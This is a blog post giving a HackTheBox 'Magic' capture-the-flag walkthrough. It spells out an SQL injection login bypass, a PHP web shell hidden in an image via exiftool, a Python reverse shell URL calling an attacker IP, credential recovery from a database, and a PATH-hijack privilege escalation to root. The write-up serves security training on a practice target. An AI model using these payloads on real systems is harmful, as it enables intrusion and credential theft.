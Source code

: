 ```yaml
---
date: 2020-08-22 23:48:05
layout: post
title: HackTheBox Magic Writeup
subtitle: Hackthebox Magic Writeup.
description: >-
  in this blog i've explained how to solve Magic machine in hackthebox
image: https://i.ibb.co/t32ZVWn/Screenshot-from-2020-08-21-22-51-38.png
optimized_image: https://i.ibb.co/t32ZVWn/Screenshot-from-2020-08-21-22-51-38.png
category: hackthebox
tags:
  - hackthebox
  - Magic
author: Ahmed Fatouh
paginate: true
---
```




# []()Methodology

* Nmap scan
* SQL injection lead to Auth Bypass
* File upload && filter Bypass
* Privilege Escalation 

# []() Nmap Scan

> as always, i did nmap scan to find out which servicecs was running in this machine, i found some important ports like **80 for Apache server and 22 for ssh.**

> nmap -sC -sV -Pn 10.10.10.185 -oA scan.txt 

```ruby

Nmap scan report for 10.10.10.185
Host is up (0.91s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|_  256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

### []()Checking the Web-Page

* The webpage was very simple, it had a login page which you can get from the bottom of the page.

> ![](https://i.ibb.co/5G1yhtz/webpage.png)

> here's the login the page.
>
> ![](https://i.ibb.co/0c8TLbq/loginpage.png)

### []()SQL Injection

* Since we don’t know the username or password, let’s try SQL injection in both fields. The idea here is that the PHP code in the back may look something like this:

```ruby

SELECT * FROM login WHERE username='$username' AND password='$password'

```

* If not properly sanitized, since we control the $username and $password variables, we could get the query to look like this:

```ruby

SELECT * FROM login WHERE username='' OR 1=1;' AND password='$password'

```

> To do so, we can supply **'or 1=1 --** as the username and something arbitrary. **foo as the password.**

> ![](https://i.ibb.co/FnnPTY0/bypass.png)

* and here we go, i'm in.

> ![](https://i.ibb.co/h1qRnpd/done.png)

### []() File Upload with filter Bypass && Reverse shell@Magic

> when i tried to upload php file to give me **reverse shell** it's gave me an error, let's see it.

> ![](https://i.ibb.co/Mgz9Mzg/filter.png)

* so we can upload images only. let's do some magic with exiftool.

> i will upload my reverse shell as a comment in image file. i'll inject it with [exiftool](https://github.com/exiftool/exiftool)

> PHP code: **<?php echo "<pre>"; system($_GET[cmd]); ?>**

> exiftool -Comment='<?php echo "<pre>"; system($_GET[cmd]); ?>' hello.jpg
>
> ![](https://i.ibb.co/LrmxJPG/test.png)

* nice, now let's change the name of the image to **hello.php.jpg**

* let's upload the photo now.

> ![](https://i.ibb.co/cgyvRbK/good.png)

* uploaded successfully.

* now let's navigate to : **http://10.10.10.185/images/uploads/test.php.jpg?cmd=id**

> ![](https://i.ibb.co/GFDFHYG/rev.png)

* done!, let's get a reverse shell now.

> open this: **10.10.10.185/images/uploads/test.php.jpg?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.xx.xx%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27**

* and start your nc listener.

> ![](https://i.ibb.co/8XgHXKB/shell.png)

# []()Privilege Escalation >> theseus

> let's navigate to /var/www/Magic and you will found db.php5 and this file contain the Database Credentials.

> ![](https://i.ibb.co/nD5L2cq/thesus.png)

* i tried this password to login as theseus but didn't work, so let's read another file.

* there is another file its name **dump.sql** and this file contain the password of **theseus**.

> ![](https://i.ibb.co/ynn3bLY/password.png)

* use this command : **mysqldump -utheseus -piamkingtheseus -A >> dump.sql** and this will give us the same result.

> ![](https://i.ibb.co/LxJdd7S/he.png)

* Username = **Theseus**
* Password = **Th3s3usW4sK1ng**

# []()Theseus@Magic 

* let's change the user from www-data to theses

```ruby

www-data@ubuntu:/var/www/Magic$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ 

```
> user flag
> 
> ![](https://i.ibb.co/kQxjQSn/flag.png)

# []()Privilege Escalation >> root

* after got a shell as theseus i uploaded the LinEnum script to do some enumeration and i found juicy info.

> ![](https://i.ibb.co/12Mp6CV/inter.png)

* here's the interesting line

> ![](https://i.ibb.co/fYqQScM/dddd.png)

> This binary is not a standard / default one that is included with Linux distributions, but it will run as root regardless of who executes it. Furthermore, since we are in the users group, we do have execution rights.

* if you type **strings /bin/sysinfo**. you will see this output.

```ruby

popen() failed!
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h

```
> So we will use the PATH Variable for exploiting the Binary we will set the new PATH as /tmp dir. and then i will use the **cat** binary to read **root** files.

* You can use any binary you want among the four of them

* Hardware Info = lshw -short
* Disk Info = fdisk -l
* CPU Info = cat /proc/cpuinfo
* MEM Usage = free -h

* let's start

> first make a dir in tmp directory >> **mkdir /tmp/xdevo**

> then make any file like devo.txt >> **touch devo.txt** , this file will contain the output of the files which we will read.

> **echo -e '#!/bin/sh\ncat /root/root.txt >> /tmp/xdevo/devo.txt' > pwned**

> now make the **pwned** executable file >> **chmod +x pwned**

> export the PATH variable >> **export PATH=/tmp:$PATH** or we can use this command **PATH=.:$PATH /bin/sysinfo**.

* now we can read any file we want.


> root flag.
>
> ![](https://i.ibb.co/jJ2R44y/root.png)

* cheers!

 <script src="https://www.hackthebox.eu/badge/103789"></script>






